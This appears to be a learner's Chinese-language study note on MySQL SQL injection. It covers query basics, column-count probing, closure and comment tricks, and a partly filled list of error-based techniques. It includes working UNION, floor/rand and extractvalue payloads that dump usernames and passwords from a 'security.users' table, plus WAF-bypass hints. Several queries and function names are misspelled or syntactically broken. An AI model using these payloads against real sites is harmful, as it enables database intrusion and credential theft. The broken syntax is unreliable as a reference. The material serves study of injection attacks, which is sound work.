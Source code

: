 ### sql查询语句
---
#### 基本查询语句：

---
**select**
```sql
select * from users where id = 1;
#与下方语句等效，bypass一些waf
```

```sql
select * from users where id in '1'; 
```
---

```sql
select * from users where id =(selcet id from users where username =('admin'))
#子查询 优先执行()内查询语句
```


---
**union**

```sql
select id from users union select email_id from emails;
#查询并合并数据显示
```


**注**:union联合查询必须要前后两条查询的列数必须要相等，所以需要补齐

---
**group by**
相比order by 可以用来waf bypass
```sql
select department,count(id) from student group by department;
#查询department院系人数count（id）对ID进行计数
```

一般用于二分法判断数据表列数
```sql
select * from users where id=9 g group by 2;
#by2，4，8~~～依次排查到报错为止，从而确定列数；
```

```sql
select * from users where id=9group by 4;
```

---
**order by**

```sql
select stu_id from score where c_name='计算机' order by grade desc;
# grade参数desc使得排列顺序变为降序
```
同group by，一般用于判断数据表列数，且order by后面的参数决定了输出的结果将以第几列的顺序升序输出

---
**limit**
```sql
select * from users limit 1,3;
#限制为从第一行开始显示3行(实际是从0开始计数，类数组，即上述语句显示2,3,4行的结果)
```
一般用于限数显示报错反馈信息

---
**group_concat** 合并到一行显示
```sql
select group_concat(id,username,password)from users;
#将原本多行回显输出成一行，原因是一些回显可能只允许输出一行，导致其他行回显被折叠无法看到
```

---
**select database()** 查看当前数据库名称
**select version()** 查看当前数据库版本

### 注入分类

```
注入分类
|
└─── ————查询字段
|            |
|            └───字符型 输入的参数为字符串时，称为字符型
|            |
|            └───数字型 输入的参数为整型时，可认为是数字型注入
|
└─── ————注入方法
            |
            └───union注入
            |
            └───报错注入
            |
            └───布尔注入
            |
            └───时间注入
```

### 闭合的作用
手工提交闭合符号，结束前一段查询语句，后面即可加入其他语句，查询需要的参数不需要的语句可以用注释符号'--++”或‘#’或'%23'注释掉
注释掉：利用注释符号暂时将程序段脱离运行。把某段程序“注释掉”，就是让它暂时不运行(而非删除掉)

---
**information_schema**(包含所有mysql数据库的简要信息)包含**tables**（表名集合表）和**columns**（列名集合表）
**information_schema.schemata**包含了所有库名

---

### 报错注入
报错注入存在的基础**后台对于输入输出的合理性没有检查**，用户输入什么，服务器就会将相应信息返回

#### 报错注入的分类有

1.通过floor()报错注入

> 涉及到的函数
> rand()函数：随机返回0~1间的小数
> floor()函数：小数向下取整数。向上取整数ceiling()
> concat_ws()函数：将括号内数据用第一个字段连接起来
> group by子句：分组语句，常用于，结合统计函数，根据一个或多个列，对结果集进行分组
> as：别名
> count()函数：汇总统计数量
> limit：这里用于显示指定行数
```sql
union select 1,count(*),concat_ws('~',(select concat('~',password,username) from security.users limit 1,1),floor(rand(0)*2))as x from information_schema.tables  group by x--+
```

2.通过extractValue()报错注入

> #作用：从XML片段中提取指定的值。
> #示例：SELECT EXTRACTVALUE('<root><tag>value</tag></root>', '/root/tag'); 返回 value。其中'<root><tag>value</tag></root>'可以认为是标签tag，'/root/tag'则可认为是路径
> #用途：在报错注入中，可以传递无效的XML路径或结构来触发错误。

```sql
union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema=database())))
#其中，'0x7e'后面的括号的内容可以随便改
```

**注：** extractvalue()的输出显示只有32个，所以为了获得更多本来无法显示的数据可以使用**substring(x,y,z)** 其中x为控制输出的字符串,y为开始显示的字符的位置，z为显示字符的个数，在MySQL中，substring()和substr()等效，但是在oracle中只能使用substr()因此要注意数据库的不同导致函数用法也不同

```sql
union select 1,2,extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password)from security.users),1,30)))--+
```

3.通过updateXml()报错注入

> #作用：在XML片段中应用XPATH表达式并更新XML内容。
> #示例：SELECT UPDATEXML('XML_document,XPath_string,new_value'); 返回更新后的XML。其中'XML_document'是string的格式，为xml对象的名称，例如Doc，'XPath_string'为路径，XPath格式的字符串，'new_value'string的格式，替换查找到的符合条件的数据
> #用途：在报错注入中，可以传递无效的XPATH表达式来触发错误。在报错注入中，与extractvalue相同主要注重**XPath_string**，输入错误的路径 

4.通过NAMECONSTO()报错注入

5.通过jion()报错注入

6.通过exp()报错注入

7.通过geometryCollection()报错注入

8.通过polygon()报错注入

9.通过multipoint()报错注入

10.通过multlinestring()报错注入

11.通过multpolygon()报错注入

12.通过linestring()报错注入
